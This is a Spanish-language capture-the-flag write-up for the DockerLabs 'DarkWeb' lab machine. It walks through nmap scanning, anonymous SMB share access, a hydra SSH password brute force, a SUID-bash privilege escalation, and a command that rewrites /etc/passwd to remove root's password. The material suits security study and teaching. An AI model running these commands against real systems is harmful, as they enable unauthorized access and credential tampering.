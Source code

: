 Hoy realizamos la máquina **DarkWeb** de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil

![DarkWeb](./images/darkweb/img/darkweb.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv 172.17.0.2 -oN escaneo.txt
```

```css
# Nmap 7.95 scan initiated Tue Dec 17 14:37:35 2024 as: nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-17 14:37:35 -03 for 18s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-12-17T17:37:50
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 25855/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Failed to receive data)
|   Check 4 (port 25695/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 17 14:37:53 2024 -- 1 IP address (1 host up) scanned in 18.68 seconds
```

Tenemos 3 puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1`

•`Puerto 139: Samba smbd 4`

•`Puerto 445: Samba smbd 4`

y estamos frente a una maquina linux ubuntu.

Empezaremos intentando enumerar el puerto 139 y 445:

```css
netexec smb 172.17.0.2 -u "" -p "" --shares
```

```css
Share           Permissions     Remark
-----           -----------     ------
print$                          Printer Drivers
darkshare       READ            
IPC$                            IPC Service (a3c1d3aceb1b server (Samba, Ubuntu))
```

como vemos, podemos leer el recurso compartido "darkshare" sin necesidad de contraseña ni usuario, por lo que usaremos `smbclient` para entrar y ver que hay:

```css
smbclient //172.17.0.2/darkshare -U "" -N
```

una vez dentro, ejecutamos `ls` y vemos que dentro hay varios archivos:

```css
smb: \> ls
  .                                   D        0  Sat Dec 14 07:24:32 2024
  ..                                  D        0  Sat Dec 14 07:24:32 2024
  drugs.txt                           N      526  Sat Dec 14 07:17:49 2024
  ilegal.txt                          N      204  Sat Dec 14 07:24:32 2024
  credentials.txt                     N      631  Sat Dec 14 07:17:13 2024
  archivesDatabases.txt               N      563  Sat Dec 14 07:16:30 2024
  hackingServices.txt                 N      662  Sat Dec 14 07:18:19 2024

		240591404 blocks of size 1024. 189920392 blocks available
smb: \>
```

viendo que son varios, simplemente ejecutamos `mget *` y ya tendremos todos en nuestro host.

Teniendo todos los archivos, si revisamos el "ilegal.txt", veremos un mensaje en `rot 21` el cual dice lo siguiente:

```css
No le compartas esta pagina a nadie, solo quiero que lo veas tu, ya que esto me puede meter el problemas: l2fhivsrcbyt2nu5rilmvmqmhpzhugai5szrmyrsyboykzvsokfd6did.onion
```

Como vemos tenemos una web con `.onion`,  las cuales son dominios especiales que se utilizan en la red Tor para acceder a servicios ocultos y no son accesibles desde navegadores tradicionales (firefox, chrome). Por lo que para continuar, usaremos el navegador `torbrowser` , el cual se instala de la siguiente manera (en archlinux):

```css
sudo pacman -S torbrowser-launcher
```

Una vez instalado, lo abrimos y vamos al link encontrado. Luego de revisar el codigo fuente de todas las paginas, encuentro cosas interesantes en los siguientes:

• `marketplace.html`

• `redroom.html`

en el que `redroom.html` nos da un usuario: dark

y marketplace.html nos da un archivo llamado "passwordsListSecretWorld.txt" el cual parece tener contraseñas.

![MarketPlace](./images/darkweb/img/marketplace.png)

![RedRoom](./images/darkweb/img/redroom.png)

# Intrusión

Para entrar a la maquina, crearemos una wordlist con el archivo de contraseñas encontrado, y usaremos `hydra` para atacar el puerto 22 con el usuario dark:

```css
hydra -l dark -P wordlist ssh://172.17.0.2 -V
```

![Pass](./images/darkweb/img/pass.png)

Teniendo la contraseña, nos conectamos a través de ssh:

```css
ssh dark@172.17.0.2
```

# Escalada de privilegios

### Dark

Ya al entrar a la máquina, noto que `bash` está raro, y probablemente tenga el bit SUID activado, esto por que cuando entramos, no nos sale el típico prompt y nos sale `-bash-5.2$`:

![Bash_SUID](./images/darkweb/img/bash.png)

Luego de revisar el bash con `ls -l /bin/bash`, veo que efectivamente tiene el bit SUID activado, ya que entre sus permisos se encuentra una "s". Por lo que para escalar, ejecutaremos lo siguiente:

```css
bash -p
```

luego, ejecutamos lo siguiente para ser root al 100%:

```css
sed -i 's/root:x:/root::/g' /etc/passwd && su
```

## Root

![Root](./images/darkweb/img/root.png)

Gracias por leer :)